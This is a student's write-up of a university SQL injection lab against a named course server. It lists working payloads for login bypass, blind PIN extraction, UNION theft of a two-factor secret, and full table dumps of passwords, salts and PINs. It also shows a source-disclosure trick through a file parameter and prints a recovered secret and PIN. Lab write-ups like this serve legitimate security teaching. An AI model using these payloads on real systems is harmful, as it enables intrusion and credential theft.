 # My solution of the SQL Injection Assignment

See [the assignment here](./SQL-Injection-Assignment.md).


# Task 1

First, I entered Username `endlemar` and password `'XXX`.

Luckily, the app returned a page with an error message:

```
Wrong SQL query: SELECT username FROM users WHERE username = 'endlemar' AND password = SHA1(CONCAT(''XXX', (SELECT salt FROM users WHERE username = 'endlemar')))
```

Seeing the whole query and the position of my “password” `'XXX`, I constructed the following value for `password` that
will result one row where username is `endlemar`:

```
')) OR 1 = 1 AND username = 'endlemar' -- 
```

**Note 1:** There is a trailing space in `-- `.

**Note 2:** The entered Username in the form does not affect the result of the SQL query when using this SQL injection.


## Task 2

Using the Hint #1 (Table `users` contains column `pin`), I constructed several queries (passwords) to find out what my
4-digits PIN is.

First, I found out that my PIN contains only digits 1, 3, 5, 7 using the queries in the following form (where `<number>`
is 0,..,9).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<number>%' -- 
```

That meant that there is only `4! = 16` possible PINs. However, I constructed additional queries to find out the digits'
relative precedence to each other (the condition evaluated to TRUE when `<i>` preceded `<j>`).

```
')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<i>%<j>%' -- 
```

Reducing the possible number of permutations this way, I quickly discovered that my PIN is `5371`.


## Task 3

Using the following query (password), I found out my secret is `E5XVZ2XDHS4SNGE2`:

```
')) AND 1 = 0 UNION SELECT secret FROM users WHERE username = 'endlemar' -- 
```

Once I had the secret, I used the Google Authenticator mobile app to generate the corresponding OTPs
(by manually creating a new account using the secret as “a setup key”).

The generated OTPs worked and I got in.

### Side note

Originally, I wanted to use this technique (with UNION) to find out my PIN. But it turns out that the app
must have some built-in protection against it:

```
')) AND 1 = 0 UNION SELECT pin FROM users WHERE username = 'endlemar' -- 
```

It seems that even though the SQL query succeeds and returns one username, the app checks whether the returned value is
from the user's table columns `username` and/or `secret`.

The following works:

```
')) AND 1 = 0 UNION SELECT 'endlemar' as username -- 
')) AND 1 = 0 UNION SELECT 'E5XVZ2XDHS4SNGE2' as username -- 
```

But the following does NOT work:

```
')) AND 1 = 0 UNION SELECT '5371' as username -- 
')) AND 1 = 0 UNION SELECT 'something' as username -- 
```


## Task 4

Once I successfully logged in, I started exploring the UI and all its features.
I noticed the link “Warning!” which led to the URL `https://kbe.felk.cvut.cz/index.php?open=warning.txt`.
Almost immediately, I tried replacing `warning.txt` with `index.php`.
And to my pleasant surprise, the server responded with a highlighted source code of the index.php.
After a quick look, I confirmed it must be the same index.php that is actually running on the server.

**Note 3:** In fact, no login is needed to access https://kbe.felk.cvut.cz/index.php?open=index.php.

**Note 4:** The code (line 67) confirms my suspicions from [Task 3's Side note](#side-note).

The next feature I noticed was the pagination mechanism of messages which was using the `offset` query parameter.
By looking into the code, I quickly constructed such offset values that helped me obtain the names of the database
tables, their column names and their data:

```
0 UNION SELECT table_name, 1 FROM information_schema.tables
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'users'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'messages'
0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'codes'

0 UNION SELECT CONCAT(username, '\t', password, '\t', pin, '\t', secret, '\t', salt), 1 FROM users
0 UNION SELECT CONCAT(username, '\t', base64_message_xor_key, '\t', date_time), 1 FROM messages
0 UNION SELECT CONCAT(username, '\t', aes_encrypt_code), 1 FROM codes
```

The database has 3 tables _(apart from the MySQL system tables)_ with the following columns:

* users
	* username
	* password
	* pin
	* secret
	* salt
* messages
	* username
	* base64_message_xor_key
	* date_time
* codes
	* username
	* aes_encrypt_code

The tables contain the following data:

* users – 8 rows – [users.tsv](./users.tsv)
* messages – 24 rows – [messages.tsv](./messages.tsv)
* codes – 9 rows – [codes.tsv](./codes.tsv)


## Task 8

See my solution of [Task 4](#task-4).
